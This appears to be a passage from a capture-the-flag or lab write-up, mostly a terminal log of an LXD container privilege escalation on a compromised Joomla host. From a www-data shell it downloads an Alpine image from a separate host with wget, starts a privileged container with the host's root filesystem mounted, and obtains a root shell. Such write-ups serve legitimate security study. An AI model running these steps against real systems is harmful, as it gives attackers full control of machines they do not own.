 ```jsx
www-data@ubuntu:/$ cd /opt/joomla/templates/protostar

www-data@ubuntu:/opt/joomla/templates/protostar$ wget http://10.10.73.136:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz

alpine-v3.13-x86_64 100%[===================>]   3.11M  --.-KB/s    in 0.01s   

2024-12-24 04:05:09 (301 MB/s) - 'alpine-v3.13-x86_64-20210218_0139.tar.gz' saved [3259593/3259593]

www-data@ubuntu:/opt/joomla/templates/protostar$ lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myalpine
www-data@ubuntu:/opt/joomla/templates/protostar$ lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+----------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myalpine | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Dec 24, 2024 at 12:06pm (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+-------------------------------+

www-data@ubuntu:/opt/joomla/templates/protostar$ lxc init myalpine joker -c security.privileged=true
Creating joker

www-data@ubuntu:/opt/joomla/templates/protostar$ lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to joker

www-data@ubuntu:/opt/joomla/templates/protostar$ lxc start joker
www-data@ubuntu:/opt/joomla/templates/protostar$ lxc exec joker /bin/sh

~ # whoami
whoami
root
~ # id
id
uid=0(root) gid=0(root)
~ # 
```

# Appendix

## LXC (Linux Containers)

<aside>
💡
